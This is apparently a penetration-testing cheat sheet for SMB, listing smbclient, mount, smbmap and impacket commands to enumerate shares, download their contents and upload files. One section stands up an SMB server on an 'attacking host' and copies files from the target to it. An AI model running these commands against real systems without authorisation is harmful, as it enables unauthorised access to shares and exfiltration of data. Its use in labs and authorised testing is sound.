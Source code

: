 # 139,445 - SMB

## Usage

{% tabs %}
{% tab title="General" %}
{% code overflow="wrap" %}
```bash
# Download all files without prompting
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *

# Mount a share (no authentication)
sudo mount -t cifs //10.10.10.10/target-share /mnt
sudo mount -t cifs - "username='',password=''" //10.10.10.10/my_share /mnt

# Mount a share (with authentication)
sudo mount -t cifs -o username=x7331,password=Pass123! //10.10.10.10/my_share /path/to/mount
```
{% endcode %}
{% endtab %}

{% tab title="Transfers" %}
Launch SMB server on the attacking host:

```bash
impacket-smbserver -smb2support share . -username test -password tes
```

Connect from the target and transfer the file(s):

```powershell
# Map the share
net use z: \\10.10.10.10\share /USER:test test

# Transfer the file(s)
copy my_file z:\
```
{% endtab %}

{% tab title="smbmap/smbclient" %}
[`smbmap`](https://github.com/ShawnDEvans/smbmap) is a tool for quickly enumerating SMB shares and their permissions, revealing accessible directories and files to identify misconfigurations or sensitive data exposure.

```bash
# List shares and permissions
smbmap -H 10.10.10.10

# List share's contents
smbmap -H 10.10.10.10 -r my_share

# Spider the share
smbmap -u x7331 -p Passw0rd123! -H 10.10.10.10 -r my_share --depth 3

# Download a file
smbmap -H 10.10.10.10 --download "my_share\target_file"

# Upload a file
smbmap -H 10.10.10.10 --upload target_file "my_share\target_file"
```
